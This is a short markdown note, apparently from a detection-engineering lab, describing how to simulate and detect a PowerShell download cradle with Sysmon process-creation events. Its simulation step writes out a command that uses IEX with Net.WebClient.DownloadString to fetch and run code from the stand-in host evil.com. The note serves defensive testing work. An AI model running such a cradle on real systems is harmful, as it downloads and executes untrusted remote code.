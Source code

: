 # 📥 PowerShell Download Cradle Execution

**Purpose:**  
Detects PowerShell commands used to download & execute payloads remotely.

**Simulation Steps:**  
- Run: `powershell -Command "IEX (New-Object Net.WebClient).DownloadString('http://evil.com/mal')"`
- Look for encoded commands or suspicious URLs
- Trigger via Sysmon Event ID 1 (Process Creation)

**Screenshot:**  

